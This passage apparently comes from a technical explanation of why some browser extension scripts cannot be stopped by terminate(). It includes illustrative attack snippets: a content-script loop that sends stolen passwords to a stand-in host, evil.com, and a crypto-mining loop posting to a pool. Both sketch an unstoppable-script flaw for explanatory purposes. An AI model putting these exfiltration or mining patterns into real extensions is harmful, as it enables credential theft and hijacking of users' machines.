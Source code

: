 **Event loop during above code:**
```
Task: Script execution (one iteration)
  → Macrotask Queue: setTimeout callback scheduled
  → Event Loop ← IPC messages processed HERE
    ← "Set cancellation flag" arrives within 5-10ms
  → Macrotask: setTimeout callback runs
  → Script checks flag, sees it's cancelled, exits
```

## Real-World Attack Scenarios

### Scenario 1: Data Exfiltration Loop
```javascript
// Malicious extension in content script
async function exfiltrate() {
  while (true) {
    const data = stealPasswords();
    await fetch('https://evil.com/collect', {
      method: 'POST',
      body: JSON.stringify(data)
    });
    await Promise.resolve();  // ❌ Can't be stopped
  }
}
```

**Impact**:
- User clicks "Remove Extension"
- Extension continues running until page reload/close
- Data continues being exfiltrated
- `terminate()` doesn't work

### Scenario 2: Cryptocurrency Mining
```javascript
async function mine() {
  while (true) {
    const nonce = Math.random();
    const hash = await crypto.subtle.digest('SHA-256', nonce);
    if (isValidHash(hash)) {
      await fetch('https://mining-pool.com/submit', {
        method: 'POST',
        body: hash
      });
    }
    await Promise.resolve();  // ❌ Can't be stopped
  }
}
```

**Impact**:
- Drains CPU indefinitely
- User's computer becomes unresponsive
- `terminate()` doesn't work
- Must force-quit browser
